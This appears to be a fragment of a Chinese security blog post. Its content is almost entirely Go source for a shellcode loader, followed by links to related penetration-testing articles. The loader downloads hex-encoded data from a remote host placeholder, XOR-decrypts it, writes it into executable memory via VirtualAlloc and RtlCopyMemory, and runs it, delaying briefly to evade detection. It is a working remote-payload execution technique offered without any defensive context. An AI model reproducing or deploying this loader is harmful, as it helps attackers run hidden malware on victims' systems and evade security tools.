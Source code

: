 ```
  resp, err := http.Get("http://IP/https/1.txt")
    if err != nil {
        return
    }
    defer resp.Body.Close()
    body, err := ioutil.ReadAll(resp.Body)
    var tmp = string(body)
    x1, _ := hex.DecodeString(tmp)
  var KEY_1 byte = keys1()
  var KEY_2 byte = keys2()
  var res []byte
  for i := 0; i < len(x1); i++ {
    res = append(res, x1[i]^KEY_1^KEY_2)
  }
  addr, _, err := VirtualAlloc.Call(0, uintptr(len(res)), MEM_COMMIT|MEM_RESERVE, PAGE_EXECUTE_READWRITE)
  if err != nil && err.Error() != "The operation completed successfully." {
    syscall.Exit(0)
  }
  _, _, err = RtlCopyMemory.Call(addr, (uintptr)(unsafe.Pointer(&res[0])), uintptr(len(res)))
  if err != nil && err.Error() != "The operation completed successfully." {
    syscall.Exit(0)
  }
  time.Sleep(5 * time.Second)
  syscall.Syscall(addr, 0, 0, 0, 0)
}
```

![](https://mmbiz.qpic.cn/mmbiz_png/toroKEibicmZBzvSicIgIV5Qc7btROE3LoSnTokjLGNZwUrKMNWWiankMu9UQVH05bgJ33COlZGWA3E3SKdND6stkw/640?wx_fmt=png)

**【往期推荐】**  

[未授权访问漏洞汇总](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247484804&idx=2&sn=519ae0a642c285df646907eedf7b2b3a&chksm=ea37fadedd4073c87f3bfa844d08479b2d9657c3102e169fb8f13eecba1626db9de67dd36d27&scene=21#wechat_redirect)

[【内网渗透】内网信息收集命令汇总](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485796&idx=1&sn=8e78cb0c7779307b1ae4bd1aac47c1f1&chksm=ea37f63edd407f2838e730cd958be213f995b7020ce1c5f96109216d52fa4c86780f3f34c194&scene=21#wechat_redirect)  

[【内网渗透】域内信息收集命令汇总](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485855&idx=1&sn=3730e1a1e851b299537db7f49050d483&chksm=ea37f6c5dd407fd353d848cbc5da09beee11bc41fb3482cc01d22cbc0bec7032a5e493a6bed7&scene=21#wechat_redirect)  

[记一次 HW 实战笔记 | 艰难的提权爬坑](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247484991&idx=2&sn=5368b636aed77ce455a1e095c63651e4&chksm=ea37f965dd407073edbf27256c022645fe2c0bf8b57b38a6000e5aeb75733e10815a4028eb03&scene=21#wechat_redirect)

[【超详细】Microsoft Exchange 远程代码执行漏洞复现【CVE-2020-17144】](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485992&idx=1&sn=18741504243d11833aae7791f1acda25&chksm=ea37f572dd407c64894777bdf77e07bdfbb3ada0639ff3a19e9717e70f96b300ab437a8ed254&scene=21#wechat_redirect)

[【超详细】Fastjson1.2.24 反序列化漏洞复现](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247484991&idx=1&sn=1178e571dcb60adb67f00e3837da69a3&chksm=ea37f965dd4070732b9bbfa2fe51a5fe9030e116983a84cd10657aec7a310b01090512439079&scene=21#wechat_redirect)

